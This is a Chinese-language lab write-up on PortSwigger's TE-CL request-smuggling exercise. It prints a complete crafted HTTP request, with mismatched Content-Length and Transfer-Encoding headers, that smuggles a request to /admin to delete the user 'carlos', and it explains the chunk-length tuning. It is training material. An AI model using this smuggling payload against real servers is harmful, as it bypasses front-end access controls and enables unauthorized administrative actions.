 ```yaml
---
title: TE-CL绕过前端服务器安全控制
id: zhfly3481
---
```


#### TE-CL绕过前端服务器安全控制

同上面实验相反，前端服务器识别`Transfer-Encoding`，后端服务器识别`Content-Length`

**实验地址**：https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl

**实验描述**

本实验包含一个前端和后端服务器，后端服务器不支持`Transfer-Encoding`分块传输。现有一个管理员面板/admin，但被限制直接访问。

要完成本实验，需向后端服务器走私一个http请求以访问到管理员系统并删除名为`carlos`的用户。

**实验过程**

构造走私请求，这里构造请求同上面实验有些差别

```
POST / HTTP/1.1
Host: acc11f291f28854680882dae00df00bf.web-security-academy.net
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.80 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=DHsv0QPpKqKpsxRdjanyv0OdA5CUY9cn
Content-Length: 4
Transfer-Encoding: chunked

60

POST /admin HTTP/1.1

Content-Type: application/x-www-form-urlencoded

Content-Length: 12 `x=1

0` 
```

构造请求，提示需要添加`Host:localhost`

![image](../img/537d9c4ae8d3d2d97c3e6c00c69f0f71.png)

如果对此处请求体构造有疑问可以查看chunk传输数据的格式

> chunk传输数据格式如下，其中size的值由16进制表示。
> 
> ```
> >[chunk size][\r\n][chunk data][\r\n][chunk size][\r\n][chunk data][\r\n][chunk size = 0[\r\n][\r\n]]
> > 
> ```

因而这里60对应的十进制是：96。恰好等于60以下到0以上数据的长度（包括\r\n）

此处需说明一点，请求包中chunk分块传输的数据库长度必须正确，同时走私请求中的Content-Length长度也需保证正确，否则会提示无法识别或非法请求。

![image](../img/ecf956f206291c305e7b37c4e47e95d9.png)

添加`Host:localhost`并修改数据块长度后重新发包

![image](../img/ce29f57f447e2ac9d215268f246cb319.png)

修改走私请求为GET方式，多次发送最终成功删除用户。

![image](../img/7525b74fd04d03121b7db881f9846668.png)